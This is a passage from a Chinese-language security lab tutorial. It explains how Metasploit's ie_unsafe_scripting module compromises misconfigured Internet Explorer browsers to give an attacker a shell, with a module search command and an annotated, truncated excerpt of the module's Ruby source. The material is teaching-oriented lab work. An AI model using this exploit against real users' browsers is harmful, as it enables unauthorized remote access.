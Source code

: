 此时 `Msfconsole` 会生成一个网页地址，只要存在缺陷的目标靶机的 IE 浏览器访问这个网页地址即可被感染，从而让攻击者获得攻击机和目标靶机之间的 shell 连接通道。其中需要注意的是，目标靶机的 IE 浏览器中的 ` Initialize and script ActiveX controls not marked as safe` 的该选项需要被选中攻击才能生效。

## 4、漏洞攻击过程

下面我们将会学习漏洞攻击过程。

### 4.1 Ruby 模块关键源码解释

在攻击 IE 浏览器的 “不安全脚本错误配置漏洞“ 中，攻击的模块已经被集成在了 `Msfconsole` 里面，其名称为 `ie_unsafe_scripting`。通过 `search` 命令可以查到漏洞模块时间信息**（注意，由于 Metasploit 中模块较多，所以使用 search 命令搜索较慢，大概需要两到三分钟左右，请耐心等待）**：
```
# 查找相应的模块信息
msf > search ie_unsafe_scripting
```
![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1483604660380.png-wm)

对于 `ie_unsafe_scripting`  的源码部分，可以通过 `cat` 命令进行查看。`Metasploit` 的攻击模块由 Ruby 语言进行编写。攻击 IE 漏洞的模块关键部分源码如下所示：
```
# 引入一些必要的模块 core、exe、powershell 等
require 'msf/core'
require 'msf/util/exe'
require 'msf/core/exploit/powershell'

class MetasploitModule < Msf::Exploit::Remote

  Rank = ManualRanking

  include Msf::Exploit::Remote::BrowserExploitServer
  include Msf::Exploit::EXE
  include Msf::Exploit::Powershell

  # 实例化 ActiveXObject 的一些信息
  # 对于 ActiveX 是什么，可以查看第 3 小结基础知识介绍，其中有介绍 ActiveX
  VULN_CHECK_JS = %Q|
    try {
      new ActiveXObject("WScript.Shell");
      new ActiveXObject("Scripting.FileSystemObject");
      is_vuln = true;
    } catch(e) {}
  |
...
...
...

# 使用函数 initalize 初始化相关信息
def initialize(info = {})
    super(update_info(info,
      
      # 模块的名字信息
      'Name'                  => 'Microsoft Internet Explorer Unsafe Scripting Misconfiguration',
		
	  # 模块的描述信息	，描述信息过长已经省略
      'Description'           => %q{
		...
		...
		...
      },
		
	  # 模块的相关证书
      'License'               => MSF_LICENSE,
 
      # 模块的作者信息
```
